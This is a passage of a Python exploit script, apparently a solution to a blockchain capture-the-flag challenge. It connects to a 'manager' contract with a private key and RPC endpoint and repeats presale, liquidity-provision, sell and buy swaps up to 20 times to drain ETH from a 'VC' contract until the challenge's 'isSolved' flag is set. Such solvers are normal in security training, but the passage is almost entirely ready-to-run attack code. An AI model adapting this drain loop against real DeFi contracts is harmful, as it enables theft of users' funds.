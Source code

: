 ```python
    print(f"[*] preSale pay={fmt_wei(presale_pay)}")
    presale_exact(ctx, manager, token, price, presale_pay)

    # add LP (consumes per_round from VC)
    print("[*] ProvideLiquidity")
    provide_liquidity(ctx, manager, token, int(time.time()) + 900)

    bal = erc20_balance(ctx, token, ctx.sender)
    if bal > 0 and erc20_allowance(ctx, token, ctx.sender, manager) < bal:
        erc20_approve(ctx, token, manager, 2**256-1)
    print(f"[*] SELL presale tokens amount={bal}")
    send_tx(ctx, manager, build_swap_single(token, bal, 0))

    mgr_eth = ctx.w3.eth.get_balance(manager)
    buy_amt = mgr_eth - Web3.to_wei(0.00005, "ether")
    if buy_amt > 0:
        print(f"[*] BUY with manager {fmt_wei(buy_amt)}")
        send_tx(ctx, manager, build_swap_single(token, buy_amt, 1))
        bought = erc20_balance(ctx, token, ctx.sender)
        if bought > 0 and erc20_allowance(ctx, token, ctx.sender, manager) < bought:
            erc20_approve(ctx, token, manager, 2**256-1)
        print(f"[*] SELL bought tokens amount={bought}")
        send_tx(ctx, manager, build_swap_single(token, bought, 0))

    print("EOA:", fmt_wei(ctx.w3.eth.get_balance(ctx.sender)), " VC:", fmt_wei(ctx.w3.eth.get_balance(vc)))
    return True

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--pk", required=True)
    ap.add_argument("--rpc", required=True)
    ap.add_argument("--manager", required=True)
    args = ap.parse_args()

    pk = args.pk if args.pk.startswith("0x") else ("0x"+args.pk)
    ctx = connect(args.rpc, pk)
    manager = Web3.to_checksum_address(args.manager)

    vc      = get_addr(ctx, manager, "vc") or get_addr(ctx, manager, "VC")
    router  = get_addr(ctx, manager, "ROUTER") or get_addr(ctx, manager, "router")
    factory = get_addr(ctx, manager, "FACTORY") or get_addr(ctx, manager, "factory")
    weth    = get_addr(ctx, manager, "WETH") or get_addr(ctx, manager, "weth")

    print(f"Connected chainId={ctx.chain_id} sender={ctx.sender}")
    print(f"manager: vc={vc} router={router} factory={factory} weth={weth}")
    print("isSolved:", get_bool(ctx, manager, "isSolved"))
    print("EOA:", fmt_wei(ctx.w3.eth.get_balance(ctx.sender)))
    if vc: print("VC :", fmt_wei(ctx.w3.eth.get_balance(vc)))

    if not vc:
        raise SystemExit("No VC address discovered on manager.")

    for _ in range(20):
        if not one_round(ctx, manager, vc):
            break
        solved = get_bool(ctx, manager, "isSolved")
        if solved is not None and solved:
            break

    print("EOA:", fmt_wei(ctx.w3.eth.get_balance(ctx.sender)))
    print("isSolved:", get_bool(ctx, manager, "isSolved"))

```